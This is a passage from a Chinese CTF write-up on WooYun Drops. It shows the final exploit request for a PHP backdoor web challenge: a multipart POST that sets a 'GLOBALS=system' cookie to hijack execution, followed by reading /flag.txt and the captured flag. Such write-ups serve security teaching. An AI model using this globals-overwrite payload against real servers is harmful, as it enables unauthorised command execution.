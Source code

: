 构造数据包：

```
POST /index.php HTTP/1.1
Host: wildwildweb.fluxfingers.net:1425
Content-Length: 1325
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryePkpFF7tjBAqx29L
Cookie: GLOBALS=system

------WebKitFormBoundaryePkpFF7tjBAqx29L
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
------WebKitFormBoundaryePkpFF7tjBAqx29L
Content-Disposition: form-data; name="ls"; filename="hello.o"
Content-Type: ls

<file data>
------WebKitFormBoundaryePkpFF7tjBAqx29L———

```

最后 cat /flag.txt 即可。

```
flag{backdoor_business_is_hard,_fella} 
```

版权声明：未经授权禁止转载 [一个狗](http://drops.wooyun.org/author/一个狗 "由 一个狗 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [hackyou2014 CTF web 关卡通关攻略](http://drops.wooyun.org/tips/870)
*   [wechall mysql 关卡题解](http://drops.wooyun.org/papers/1321)
*   [2014 年澳大利亚信息安全挑战 CySCA CTF 官方 write up Web 篇](http://drops.wooyun.org/tips/2444)
*   [Web 前端攻防](http://drops.wooyun.org/tips/2686)
*   [Hacking weblogic](http://drops.wooyun.org/tips/402)
*   [Modsecurity 原理分析–从防御方面谈 WAF 的绕过（一）](http://drops.wooyun.org/tips/3804)